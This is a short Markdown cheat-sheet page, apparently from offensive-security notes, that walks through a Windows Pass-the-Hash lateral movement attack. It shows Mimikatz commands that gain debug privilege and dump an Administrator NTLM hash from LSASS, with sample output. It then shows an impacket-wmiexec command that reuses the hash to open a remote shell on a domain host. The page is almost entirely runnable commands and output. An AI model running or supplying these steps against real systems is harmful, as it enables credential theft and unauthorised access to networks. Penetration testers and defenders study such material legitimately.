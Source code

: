 ## Lateral Movement

### Pass-the-Hash

For more info about this attack, see [here](../lateral-movement/pass-the-hash.md).

{% tabs %}
{% tab title="1. SeDebugPrivilege" %}
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
{% endtab %}

{% tab title="2. LSASS" %}
Domain hashes are stored in memory of the LSASS process.

```powershell
mimikatz # sekurlsa::logonpasswords
<SNIP>

Authentication Id : 0 ; 5468350 (00000000:005370be)
Session           : RemoteInteractive from 5
User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
Logon Time        : 9/19/2024 2:08:28 AM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : 160c0b16dd0ee77e7c494e38252f7ddf
<SNIP>
```
{% endtab %}

{% tab title="3. PtH" %}
With the `Domain Administrator`'s hash, we can perform the PtH attack.

{% code overflow="wrap" %}
```powershell

$ impacket-wmiexec -debug -hashes :160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] SMBv3.0 dialect used
[+] Target system is 192.168.50.248 and isFQDN is False
[+] StringBinding: SERVERWK248[64285]
[+] StringBinding: 192.168.50.248[64285]
[+] StringBinding chosen: ncacn_ip_tcp:192.168.50.248[64285]
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
{% endcode %}
{% endtab %}
{% endtabs %}
